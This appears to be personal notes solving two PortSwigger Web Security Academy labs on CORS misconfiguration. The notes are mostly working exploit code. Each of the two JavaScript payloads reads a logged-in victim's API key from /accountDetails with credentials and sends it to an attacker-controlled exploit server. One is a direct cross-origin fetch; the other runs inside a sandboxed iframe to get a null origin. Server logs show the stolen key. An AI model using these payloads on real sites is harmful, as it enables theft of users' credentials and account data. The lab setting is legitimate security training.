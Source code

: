# Cross Origin Resource Sharing

## CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Reading the source code after logging in reveals an endpoint which was used

![](Pasted%20image%2020220514111546.png)

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

Deliver this exploit to the user through the exploit server

```
...
Origin: https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net
```

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = "https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net";
    fetch('https://ac0e1f7b1ed99a63c0545434007100a1.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>
```

Check the logs

```
172.31.30.154   2022-05-28 17:01:14 +0000 "GET /Rsa2DyCqkImZEW6285UCrbS17fwEXdJp HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36"
116.14.150.8    2022-05-28 17:01:14 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
```


https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Origin: null
```

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = 'https://exploit-0a2c002303c92b3ac0d4089b01ae000c.web-security-academy.net/';
    fetch('https://0aa300da033a2b7dc010085d009c003c.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>"></iframe>
```

